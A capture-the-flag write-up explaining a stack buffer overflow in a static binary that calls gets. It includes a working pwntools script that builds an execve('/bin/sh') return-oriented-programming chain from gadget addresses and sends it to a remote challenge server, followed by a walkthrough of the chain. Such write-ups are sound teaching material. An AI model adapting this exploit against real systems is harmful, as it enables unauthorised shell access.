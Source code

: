 # Statics and Dynamics

So this is a static binary. It's got a lot of libc zipped up within itself, removing ret2libc and ret2plt and stuff like that. Disassembling main and ignoring all the extra libc functions, we see it prints the string about it being a large binary and then calls gets on rbp-0x100. So, buffer overflow obviously. But what do we ret to? How to pop a shell?

System, execve etc. all the stuff that may be useful for shell popping is removed from the binary's libc functions. That doesn't matter though.

The libc is _big_, and it has a lot of purposes. It'll need to do many things including syscalls. Because of this, libc is always a ROP gadget goldmine. Since this binary has most of libc in itself, this binary is also a ROP gadget goldmine.

Due to this, we can build a simple execve ROP chain to execve\("/bin/sh",NULL,NULL\), then cat flag.txt.

```python
from pwn import *
NUM_TO_RET = 0x100 + 8
padding = b'A' * NUM_TO_RET
e = ELF("./sad")
poprax = 0x000000000043f8d7
poprdi = 0x000000000040187a
poprsi = 0x0000000000407aae
poprdx = 0x000000000040177f
syscall = 0x000000000040eda4
binsh = next(e.search(b"/bin/sh\x00"))
# Build execve rop chain
payload = flat(poprdi,binsh,poprsi,0,poprdx,0,poprax,0x3b,syscall,word_size=64)
p = e.process() if args.LOCAL else remote('jh2i.com', 50002)
p.recvline()
p.sendline(padding + payload)
p.interactive()
```

### Flag: flag{radically\_statically\_roppingly\_vulnerable}

## EXPLANATION:

What I just used here is called Return Oriented Programming. ROP works by building chains of return addresses. When a program rets, it'll go to the next value off the stack as a return address. So, if our input is ever at the top of the stack, we can build chains of return addresses, causing it to continue ret-ing into the next location.

The ROP chain i used uses syscalls or system calls, the lowest level, used for special calls to the system, e.g opening files, writing to files, and in this case executing files.

The chain I just used is as follows. It uses the execve syscall since the function is not available. Remember 64-bit arguments are in rdi, then rsi, then rdx...

Our goal is to execute execve\("/bin/sh",0,0\) as a syscall

* pop rdi address - pop next value off the stack into rdi for first argument
* /bin/sh address - to be popped into rdi as first argument
* pop rsi address - pop next value off the stack into rsi for second argument
* 0 - to be popped into rsi as second argument
* pop rdx address - pop next value off the stack into rdx for third argument
* 0 - to be popped into rdx as third argument
* pop rax address - pop next value off of the stack into rax. RAX stores the syscall number when a syscall is done.
* 0x3b - to be popped into rax for the syscall number. 0x3b is execve
* syscall address - execute the syscall. Will be asking the kernel to execute execve\("/bin/sh",0,0\)

